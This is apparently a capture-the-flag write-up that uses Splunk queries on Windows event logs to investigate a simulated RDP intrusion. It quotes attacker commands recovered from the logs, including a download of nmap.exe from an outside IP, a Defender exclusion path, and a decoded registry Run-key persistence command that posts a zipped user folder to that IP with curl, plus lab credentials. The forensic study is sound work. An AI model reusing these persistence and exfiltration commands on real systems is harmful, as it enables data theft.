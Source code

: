 first we got an OVF file to run in vmware, as a setup for our Splunk, together with its credentials `ihack24:root`

![alt text](images/image.png)

after logging in you need to check your vm's ip and make sure your network setup is properly configured, for me i'm using NAT

![alt text](images/image-1.png)

after running `ifconfig` to grab the vm's ip we can now take a look at its splunk setup by going to `{vm's ip}:8000` in our host machine browser

![alt text](images/image-2.png)

in the provided question the splunk creds provided is `player:beg_to_dfir`

![alt text](images/image-3.png)

now to take a look at the vm's splunk data just go to common task > search your data > query `index=*` > change presets from `last 24 hours` to `All Time`

![alt text](images/image-4.png)

## Happy SPLUNKing #1

from the first question here is what we need to focus on:-
- RDP Brute Force Attack
- Timestamp 23rd July
- find victim user account and its ip

referring to this ![cheatsheet](https://www.socinvestigation.com/windows-rdp-event-ids-cheatsheet/) I found, you failed attempt to login is apart of EventCode `4625` is related rdp failure logon status

therefore in the query presets change to last 7 days, filter EventCode `4625` and scroll all the way to 23rd July

query `index=* EventCode=4625`

![alt text](images/image-5.png)

here what we got is the username of the victim which is `admin` to find its source ip go to query and search for admin

query `index=* admin`

![alt text](images/image-6.png)

as you can see there is the ip `192.168.8.52`

flag `ihack24{admin:192.168.8.52}`

## Happy SPLUNKing #2

find ip attacker

query `index=* EventCode=4625`

![alt text](images/image-7.png)

flag `ihack24{192.168.8.41}`

## Happy SPLUNKing #3

find TimeStamp access login

referring to the cheatsheets success login rdp EventCode is `4624` therefore add it to the query

query `index=* (EventCode=4624 OR EventCode=4625)`, find out when the EventCode changes that is going to be the timestamp

![alt text](images/image-8.png)

flag `ihack24{07/23/2024 09:55:52 PM}`

## Happy SPLUNKing #4

find attacker's first command after attack

include the CommandLine filter in the query search, and add cmd to filer the cmd.exe ParentImage

query `index=* cmd CommandLine=*` 

at this timestamp this is not actually the command that the attacker first attack it is used to execute cmd.exe

![alt text](images/image-9.png)

at this timestamp is actually the command that the attacker used

![alt text](images/image-10.png)

flag `ihack24{systeminfo}`

## Happy SPLUNKing #5

find the path being excluded from detection of Windows Defender

here is the part of PowerShell parameter to exclude a directory, therefore just filter it

![alt text](images/image-11.png)

query `index=* exclusionpath`

viola

![alt text](images/image-12.png)

`flag ihack24{C:\Windows\microsoft}`

## Happy SPLUNKing #6

find backdoor ip address

at the same query, but when scrolling down there is an interesting PowerShell command executed by the attacker, using the url with ip `157.230.33.7`

`Invoke-WebRequest -Uri "http://157.230.33.7:8080/nmap.exe" -OutFile "nmap.exe"`

![alt text](images/image-13.png)

filtering it at the query we found this, the attacker sent something to that IP, probably the information of the victim's machine, therefore we concluded that will be the backdoor IP

![alt text](images/image-14.png)

flag `ihack24{157.230.33.7}`

## Happy SPLUNKing #7

find data that has been exfilterated

looking at the previous image it also includes the filename and extension that has been exfiltrated, therefore the flag is

flag `ihack24{DESKTOP-9O75B7U.zip}`

## Happy SPLUNKing #8

tools dropped by attacker to find other host

from the previous inspection (Happy SPLUNKing #6) we stumble across nmap.exe, researching on the internet, it is confirmed that, nmap is capable of doing network inspection

![alt text](images/image-15.png)

flag `ihack24{nmap.exe}`

## Happy SPLUNKing #9

find out the user and password the attacker added

when adding a new user in windows, the command always contains `add` therefore just filter it with CommandLine fields together with the word `add`

query `index=* CommandLine=* add`

![alt text](images/image-16.png)

flag `ihack24{operator:operator123}`

## Happy SPLUNKing #10

attacker command used for persistence

when filtering the the ip address of `157.230.33.7` to investigate the backdoor ip address further, luckily we found a strange (obsufcated?) PowerShell command

![alt text](images/image-18.png)

`&( $shEllid[1]+$SheLLid[13]+'x')` -> decodes to iex, which is also known as `Invoke-Expression` in PowerShell

`(-JOin (( 68, 83, ... 25,80 )))` -> joins the array of numbers into a single string, and it is also processed inside the `ForEACh-oBJeCT` block

`ForEACh-oBJeCt{[CHAR] ( $_-BxoR "0x36")}` basically a bitwise XOR command with `0x36` on each number in the array

create a python script to decode it

```python
numbers = [
    68, 83, 81, 22, 87, 82, 82, 22, 17, 126, 125, 122, 123, 106, 101, 89, 80, 66, 65, 87, 68, 83, 106, 123, 95, 85, 
    68, 89, 69, 89, 80, 66, 106, 97, 95, 88, 82, 89, 65, 69, 106, 117, 67, 68, 68, 83, 88, 66, 96, 83, 68, 69, 95, 
    89, 88, 106, 100, 67, 88, 17, 22, 25, 64, 22, 68, 83, 70, 89, 68, 66, 22, 25, 66, 22, 100, 115, 113, 105, 101, 
    108, 22, 25, 82, 22, 17, 85, 91, 82, 24, 83, 78, 83, 22, 25, 85, 22, 85, 67, 68, 90, 22, 27, 110, 102, 121, 101, 
    98, 22, 7, 3, 1, 24, 4, 5, 6, 24, 5, 5, 24, 1, 25, 67, 70, 90, 89, 87, 82, 22, 27, 112, 22, 80, 95, 90, 83, 69, 
    11, 118, 117, 12, 106, 99, 69, 83, 68, 69, 106, 87, 82, 91, 95, 88, 106, 114, 89, 85, 67, 91, 83, 88, 66, 69, 
    106, 114, 115, 101, 125, 98, 121, 102, 27, 15, 121, 1, 3, 116, 1, 99, 24, 76, 95, 70, 17, 22, 25, 80
]

decoded_message = ''.join([chr(num ^ 0x36) for num in numbers])
print(decoded_message)
```

flag `ihack24{'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}`

